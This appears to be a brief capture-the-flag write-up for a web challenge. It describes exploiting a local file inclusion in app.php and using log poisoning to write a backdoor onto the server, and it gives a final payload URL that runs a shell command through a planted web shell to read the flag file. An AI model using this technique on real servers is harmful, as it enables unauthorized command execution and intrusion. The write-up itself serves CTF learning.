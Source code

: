 There is lfi in app.php
using that vulnerability try to write backdoor on server using log poisoning ( credit @dmcr7 )
search flag

Final Payload : 
`http://web1.cybercastors.com:14438/myshell.php?0=cat%20/home/falg/flag/test/why/the/hassle/right/flag.txt`